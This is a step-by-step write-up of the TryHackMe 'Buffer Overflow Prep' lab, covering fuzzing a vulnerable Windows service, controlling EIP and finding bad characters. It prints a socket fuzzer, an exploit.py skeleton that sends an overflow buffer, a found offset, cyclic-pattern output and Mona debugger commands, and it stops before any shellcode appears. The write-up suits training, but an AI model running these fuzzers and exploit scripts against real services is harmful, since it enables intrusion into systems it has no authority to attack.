BufferOverflow_prep_writeup.sh
Sep. 6, 2020Buffer Overflow prep - THM Room
This is another writeup, this time for ‘Buffer Overflow Prep’ TryhackMe’s room. This is a pretty raw writeup detailing all my process to root this room, flaws and all. This room is quite long besides I have to learn almost everything about buffer overflows so I expect to take a couple of days on this one. This is gonna be a really long post. You have been warned :)
PS: I’m gonna be adding some audio tracks along the sections of this writeup so I don’t fall asleep while I write this up and go through this room. You are welcome to listen to them.
Enjoy!
- Please visit This room on TryHackMe by clicking this link.
- PLEASE NOTE: Passwords and flag values, or in this case offsets and bad char sets were intentionally masked as required by THM writeups rules. The write-up follows my step by step solution to this box, errors and all.
Mario Airlines Razor1911 - Crysis keygen Edit
A chiptune track to enjoy along with the post, make sure to visit the link for the full version!
TASK 1 - [oscp.exe - OVERFLOW1]
Preparations
We start by deploying the VM and connecting through RDP:
xfreerdp /u:admin /p:password /cert:ignore /v:10.10.84.54
Once we do that we’ll have a remote desktop connection to that machine, we need to start Immunity debugger and then open oscp.exe that is located in the “vulnerable apps” folder in the Desktop.
We need to remember to click on the “play” button on Immunity Debugger after opening oscp.exe.
Once that is ready we should see something like this in our RDP session:
Then we configure Mona’s working directory
!mona config -set workingfolder c:\mona\%p
We add that line in the Console at the bottom of the debugger window:
We can just minimize that window within the debugger and get back to the previous view.
Fuzzing
Create a file on your Kali box called fuzzer.py with the following contents:
import socket, time, sys
ip = "10.10.84.54"
port = 1337
timeout = 5
buffer = []
counter = 100
while len(buffer) < 30:
buffer.append("A" * counter)
counter += 100
for string in buffer:
try:
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(timeout)
connect = s.connect((ip, port))
s.recv(1024)
print("Fuzzing with %s bytes" % len(string))
s.send("OVERFLOW1 " + string + "\r\n")
s.recv(1024)
s.close()
except:
print("Could not connect to " + ip + ":" + str(port))
sys.exit(0)
time.sleep(1)
Run the fuzzer.py script using python: python fuzzer.py
When we run the command we see in the RDP session, the server starts picking up connections until it eventually raises an error and the execution is paused in the debugger.
This is what the console looks like:
┌──(kali㉿kali)-[~/Documents/THM/bufferOverflowPrep]
└─$ python fuzz.py
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzing with 500 bytes
Fuzzing with 600 bytes
Fuzzing with 700 bytes
Fuzzing with 800 bytes
Fuzzing with 900 bytes
Fuzzing with 1000 bytes
Fuzzing with 1100 bytes
Fuzzing with 1200 bytes
Fuzzing with 1300 bytes
Fuzzing with 1400 bytes
Fuzzing with 1500 bytes
Fuzzing with 1600 bytes
Fuzzing with 1700 bytes
Fuzzing with 1800 bytes
Fuzzing with 1900 bytes
Fuzzing with 2000 bytes
Could not connect to 10.10.84.54:1337
And the RDP session looks like this:
Notice the execution got paused and the EIP has been overwritten with 41414141 which is A. Exactly the payload or buffer the script we ran is sending.
If we try to unpause the execution the app crashes and we get an error like this:
If we read the room’s description of what we just did we get a sense of all the parts involved in this first type of attack.
FROM THM: The fuzzer will send increasingly long strings comprised of As (up to 3000). If the fuzzer crashes the server with one of the strings, you should see an error like: “Could not connect to 10.10.84.54:1337”. Make a note of the largest number of bytes that were sent.
Crash Replication & Controlling EIP
Create another file on your Kali box called exploit.py with the following contents:
import socket
ip = "10.10.84.54"
port = 1337
prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""
buffer = prefix + overflow + retn + padding + payload + postfix
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
s.connect((ip, port))
print("Sending evil buffer...")
s.send(buffer + "\r\n")
print("Done!")
except:
print("Could not connect.")
Run the following command to generate a cyclic pattern of a length 400 bytes longer that the string that crashed the server (change the -l value to the max value our previous script crashed at 2000):
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
Since our oscp.exe app seems to have crashed after 2000 bytes and we need to add 400 more we create a pattern of 2400 bytes as follows:
┌──(kali㉿kali)-[~/Documents/THM/bufferOverflowPrep]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9
Then we need to copy the output of that command, the pattern, and place it into the payload variable of the exploit.py script. Once we have that ready we need just one more thing before we can execute the exploit. We need to reopen immunity debugger, open the oscp.exe file and unpause it again. We’ll be doing that a lot.
Now we can run exploit.py script: python exploit.py
The script should crash the oscp.exe server again. This time, in Immunity Debugger, in the command input box at the bottom of the screen, run the following mona command, changing the distance to the same length as the pattern you created:
!mona findmsp -distance 2400
Once we run Mona we get this:
In this output you should see a line which states:
EIP contains normal pattern : ... (offset XXXX)
Update your exploit.py script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. Set the retn variable to “BBBB”.
The script should look like this:
offset = 1978
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = ""
postfix = ""
buffer = prefix + overflow + retn + padding + payload + postfix
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
s.connect((ip, port))
print("Sending evil buffer...")
s.send(buffer + "\r\n")
print("Done!")
except:
print("Could not connect.")
Restart oscp.exe in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B’s (e.g. 42424242).
As we can see we get our expected EIP value:
Finding Bad Characters
Generate a bytearray using mona, and exclude the null byte (\x00) by default. Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be C:\mona\oscp\bytearray.bin).
!mona bytearray -b "\x00"
Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \x01 to \xff:
from __future__ import print_function
for x in range(1, 256):
print("\\x" + "{:02x}".format(x), end='')
print()
We generate the bytearray with the python script:
┌──(kali㉿kali)-[~/Documents/THM/bufferOverflowPrep]
└─$ python gen_bytearray.py
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
Update your exploit.py script and set the payload variable to the string of bad chars the script generates.
We restart the debugger and load the oscp.exe file, and unpause again.
then we run python exploit.py again:
┌──(kali㉿kali)-[~/Documents/THM/bufferOverflowPrep]
└─$ python exploit.py
Sending evil buffer...
Done!
We take note of the address the ESP is pointing to:
Then we use the address for the following Mona command:
!mona compare -f C:\mona\oscp\bytearray.bin -a 0191FA30
When we run that Mona command we get the following:
